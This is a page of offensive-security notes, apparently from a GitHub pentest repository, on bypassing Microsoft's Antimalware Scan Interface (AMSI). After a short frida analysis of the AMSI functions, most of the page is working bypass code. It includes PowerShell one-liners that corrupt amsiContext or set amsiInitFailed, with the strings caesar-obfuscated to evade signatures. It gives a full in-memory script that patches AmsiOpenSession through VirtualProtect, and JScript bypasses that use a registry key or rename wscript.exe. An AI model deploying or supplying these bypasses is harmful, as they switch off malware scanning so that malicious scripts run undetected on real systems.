





# Antimalware Scan Interface (AMSI)

Microsoft has developed AMSI (Antimalware Scan Interface) as a method to defend against common malware execution and protect the end user. By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution to prevent arbitrary execution of code.

Check this link to see which others vendors adopted AMSI in their software:

* [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)

The unmanaged dynamic link library `AMSI.DLL` is loaded in every Powershell and Powershell_ISE process and provides several exported functions that PowerShell takes advantage of.



The AMSI exported functions `AmsiInitialize`, `AmsiOpenSession`, `AmsiScanString`, `AmsiScanBuffer` and `AmsiCloseSession`.

```
HRESULT AmsiInitialize(
  LPCWSTR      appName,
  HAMSICONTEXT *amsiContext
);


HRESULT AmsiOpenSession(
  HAMSICONTEXT amsiContext,
  HAMSISESSION *amsiSession
);

HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID        buffer,
  ULONG        length,
  LPCWSTR      contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT  *result
);
```
## Analyzing the AMSI

In order to study how it works we are going to hook them with frida.

```
C:\> frida-trace -p <PS_PID> -x amsi.dll -i Amsi*
Instrumenting functions...
AmsiOpenSession: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiOpenSession.js"
AmsiUninitialize: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiUninitialize.js"
AmsiScanBuffer: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiScanBuffer.js"
AmsiUacInitialize: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiUacInitialize.js"
AmsiInitialize: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiInitialize.js"
AmsiCloseSession: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiCloseSession.js"
AmsiScanString: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiScanString.js"
AmsiUacUninitialize: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiUacUninitialize.js"
AmsiUacScan: Auto-generated handler at "C:\\Users\\benjugat\\__handlers__\\amsi.dll\\AmsiUacScan.js"
Started tracing 9 functions. Press Ctrl+C to stop.
```

Let's modify the `AmsiScanBuffer.js` and add this functions:

```js
onEnter: function (log, args, state) {
  log('[*] AmsiScanBuffer()');
  log('|- amsiContext: ' + args[0]);
  log('|- buffer: ' + Memory.readUtf16String(args[1]));
  log('|- length: ' + args[2]);
  log('|- contentName ' + args[3]);
  log('|- amsiSession ' + args[4]);
  log('|- result ' + args[5] + "\n");
  this.resultPointer = args[5];
},

onLeave: function (log, retval, state) {
  log('[*] AmsiScanBuffer() Exit');
  resultPointer = this.resultPointer;
  log('|- Result value is: ' + Memory.readUShort(resultPointer) + "\n");
}
```

This will print every call and params of `AmsiScanBuffer()` functions.

* Example of `test` command:

```
2730732 ms  AmsiOpenSession()
2730732 ms  [*] AmsiScanBuffer()
2730732 ms  |- amsiContext: 0x1f862fa6f40
2730732 ms  |- buffer: test
2730732 ms  |- length: 0x8
2730732 ms  |- contentName 0x1f84ad8142c
2730732 ms  |- amsiSession 0xd
2730732 ms  |- result 0x599f9ce948

2730744 ms  [*] AmsiScanBuffer() Exit
2730744 ms  |- Result value is: 1
```

* Example of `'Amsiutil'` command:

```
4290781 ms  [*] AmsiScanBuffer()
4290781 ms  |- amsiContext: 0x1f862fa6f40
4290781 ms  |- buffer: 'AmsiUtils'
4290781 ms  |- length: 0x16
4290781 ms  |- contentName 0x1f84ad8142c
4290781 ms  |- amsiSession 0x33
4290781 ms  |- result 0x599f9ce948

4290807 ms  [*] AmsiScanBuffer() Exit
4290807 ms  |- Result value is: 32768
```

> **Note**: Result value `1` means is clean, and `32768` means malware detected.

## Initial amsiContext bytes to 0x0000

Let's check what is `amsiContext`. If we try to put the first 4 bytes of the AmsiContext to 0, AMSI will fail but we can continue using our powershell without AMSI.

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "ams*" -and $b.Name -like "*iu*") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```


## Set amsiInitFailed to true

Another way to bypass Amsi is to set the `amsiInitFailed` attribute to true.

This is an example which is flagged by AV:

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

How the strings are flagged we are gonna use a caesar cipher:

```
$text="System.Management.Automation.AmsiUtils"; $encrypted=-join ($text.ToCharArray() | ForEach-Object { [char](([int][char]$_ + 2) % 128) })
```

Final script:

```
$d={param($s) -join ($s.ToCharArray() | % { [char](([int][char]$_ - 2 + 128) % 128) })}; $type=& $d 'U{uvgo0Ocpcigogpv0Cwvqocvkqp0CoukWvknu'; $field=& $d 'coukKpkvHckngf';$flags = & $d 'PqpRwdnke.Uvcvke';
$j = [Ref].Assembly.GetType($type); 
$k = $j.GetField($field,$flags); $m=$k.SetValue($null,$true)
```

> **Note**: In one line does't work, try it with separate lines.



## AMSI binary patching

In the other two options we locate vital structures with reflection that when corrupted, will cause AMSI to be disabled. Now we are going to modify the assembly instructions to force it to fail even if the data structure is valid.

Let's dissasembly with windbg the `AmsiOpenSession` function:

```
0:019> u amsi!AmsiOpenSession L1A
amsi!AmsiOpenSession:
00007ffe`3fe724c0 4885d2          test    rdx,rdx
00007ffe`3fe724c3 7446            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724c5 4885c9          test    rcx,rcx
00007ffe`3fe724c8 7441            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007ffe`3fe724d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724d2 4883790800      cmp     qword ptr [rcx+8],0
00007ffe`3fe724d7 7432            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724d9 4883791000      cmp     qword ptr [rcx+10h],0
00007ffe`3fe724de 742b            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724e0 41b801000000    mov     r8d,1
00007ffe`3fe724e6 418bc0          mov     eax,r8d
00007ffe`3fe724e9 f00fc14118      lock xadd dword ptr [rcx+18h],eax
00007ffe`3fe724ee 4103c0          add     eax,r8d
00007ffe`3fe724f1 4898            cdqe
00007ffe`3fe724f3 488902          mov     qword ptr [rdx],rax
00007ffe`3fe724f6 7510            jne     amsi!AmsiOpenSession+0x48 (00007ffe`3fe72508)
00007ffe`3fe724f8 418bc0          mov     eax,r8d
00007ffe`3fe724fb f00fc14118      lock xadd dword ptr [rcx+18h],eax
00007ffe`3fe72500 4103c0          add     eax,r8d
00007ffe`3fe72503 4898            cdqe
00007ffe`3fe72505 488902          mov     qword ptr [rdx],rax
00007ffe`3fe72508 33c0            xor     eax,eax
00007ffe`3fe7250a c3              ret
00007ffe`3fe7250b b857000780      mov     eax,80070057h
00007ffe`3fe72510 c3              ret
```

The two first instructions in AmsiOpenSession are a TEST followed by a conditional jump. This specific conditional jump is called [jump if equal] or jump if zero (JE) and depends on a CPU flag called the zero flag (ZF).

The conditional jump is controlled by the TEST instruction according to the argument and is executed if the zero flag is equal to 1. If we modify the TEST instruction to an XOR instruction, we may force the Zero flag to be set to 1 and trick the CPU into taking the conditional jump that leads to the invalid argument return value.

There are two options for patch, we can patch the first `test rdx,rdx` or the 3th line `test rcx,rcx` what ever.

So we are going to patch:

`0x4885d2  -> test rdx,rdx` to `0x4831c0 -> xor rax,rax`

> **Note**: It's important that our code matches with the length of the original opcode.

To perform our binary patching we need to carry out four actions:

1. Obtain the memory address of `AmsiOpenSession`.
2. Modify the memory permissions where `AmsiOpenSession` is located.
3. Modify the three bytes at that location.
4. Restore memory protection.

We can use our funtion `Resolve-function` from [Powershell dropper](./powershell-dropper.md).


```powershell
function Resolve-Function {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
$AmsiOpenSessionAddr = Resolve-Function -moduleName "amsi.dll" -functionName "AmsiOpenSession"

$AmsiOpenSessionAddr
140729970533568
```

We can verify the address:

```
0:019> ? 0n140729970533568
Evaluate expression: 140729970533568 = 00007ffe`3fe724c0
0:019> u 00007ffe`3fe724c0
amsi!AmsiOpenSession:
00007ffe`3fe724c0 4885d2          test    rdx,rdx   <-- this one
00007ffe`3fe724c3 7446            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724c5 4885c9          test    rcx,rcx  <-- or this one
00007ffe`3fe724c8 7441            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007ffe`3fe724d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
00007ffe`3fe724d2 4883790800      cmp     qword ptr [rcx+8],0
00007ffe`3fe724d7 7432            je      amsi!AmsiOpenSession+0x4b (00007ffe`3fe7250b)
```

Now our problem is that windows code pages which are divided into 0x1000 byptes are set to `PAGE_EXECUTE_READ (0x20)`

```
0:019> !vprot 00007ffe`3fe724c0
BaseAddress:       00007ffe3fe72000
AllocationBase:    00007ffe3fe70000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000008000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE
```

Since we want to modify these bytes we first need to change de protection. We can use `VirtualProtect`.

```
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

```powershell
function Get-DelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$VirtualProtectAddr = Resolve-Function -moduleName "kernel32.dll" -functionName "VirtualProtect"
$VirtualProtectDelegateType = Get-DelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])
$VirtualProtect = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($VirtualProtectAddr, $VirtualProtectDelegateType)
$oldProtectionBuffer = 0
$VirtualProtect.Invoke($AmsiOpenSessionAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```

Now is changed and we can write on it.

```
0:011> !vprot 00007ffe`3fe724c0
BaseAddress:       00007ffe3fe72000
AllocationBase:    00007ffe3fe70000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000001000
State:             00001000  MEM_COMMIT
Protect:           00000080  PAGE_EXECUTE_WRITECOPY
Type:              01000000  MEM_IMAGE
```

So let's modify the three bytes.

```powershell
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $AmsiOpenSessionAddr, 3)
```

Finally restore the original memory protection:

```powershell
$VirtualProtect.Invoke($AmsiOpenSessionAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```


**Final code**:

```powershell
function Resolve-Function {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
function Get-DelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
$AmsiOpenSessionAddr = Resolve-Function -moduleName "amsi.dll" -functionName "AmsiOpenSession"
$VirtualProtectAddr = Resolve-Function -moduleName "kernel32.dll" -functionName "VirtualProtect"
$VirtualProtectDelegateType = Get-DelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])
$VirtualProtect = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($VirtualProtectAddr, $VirtualProtectDelegateType)
$oldProtectionBuffer = 0
$VirtualProtect.Invoke($AmsiOpenSessionAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $AmsiOpenSessionAddr, 3)
$VirtualProtect.Invoke($AmsiOpenSessionAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```



> **Note**: Execute the script in memory with `iex`.




# Bypass AMSI in JScript

Since from JScript we cannot do reflection we are going to try on a different way.

## Setting AmsiEnable registry to 0

To bypass AMSI, we will create the key and set its value to `0` with the `RegWrite` method from the `WScript.Shell` object. This method accepts the full registry key, the value content, and the value data type as shown in the JScript code below.

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}
```

## Renaming wscript.exe

If a process named `amsi.dll` tries to load a DLL of the same name, `LoadLibraryExW` will report that it's already in memory and abort the load to improve efficiency.

As an example try to run the following file:

```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
	{
		throw new Error(1, '');
	}
}
catch(e)
{
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
	WScript.Quit(1);
}
```


> **Note**: Although AV triggers we can still using this bypass by doing process injection or migration.